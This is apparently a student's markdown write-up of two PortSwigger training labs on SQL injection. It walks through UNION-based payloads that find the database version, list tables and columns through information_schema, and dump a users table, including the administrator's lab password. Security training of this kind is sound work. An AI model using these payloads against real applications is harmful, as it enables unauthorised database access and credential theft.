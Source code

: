 # Lab 1: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Lab's description

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

**End goal:** display the database version string.

## Solution

First, I choose any type of category.

Then turn on Proxy and open Burp Suite, send your site to Repeater.

Now, I try to modify the link to determine the number of columns required.

After I try, I can see `' ORDER BY 3#` display error. That means it has 2 columns.

Now I determine which column is string data: `' UNION SELECT 'a','a'#`

So both columns are string. Expoilt payload: `' UNION SELECT 'a',@@version#`

**Source:** [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft#)

# Lab 2: SQL injection attack, listing the database contents on non-Oracle databases

## Lab's description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

**End goal:** log in as the administrator user.

## Solution

After I determine, I can see `' ORDER BY 3#` display error. That means it has 2 string columns.

Now I look for name of database table, Most database types have a set of views called the information schema: `' UNION SELECT table_name,NULL FROM information_schema.tables`

We have lots of names here, now we search for `user` to see anything interesting. In my case, I see `users_zymndv`

Now we look for name of columns in the `users_zymndv` table: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_zymndv'` 			
	
In my case, I can see `username_qekbsa` and `password_emjrmd`

Now we look for exactly these 2 columns in that table: ` UNION SELECT username_qekbsa, password_emjrmd FROM users_zymndv--`

I have `administrator` and `g5e586vh9k3sw4xcg9vr`

**Source:** [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
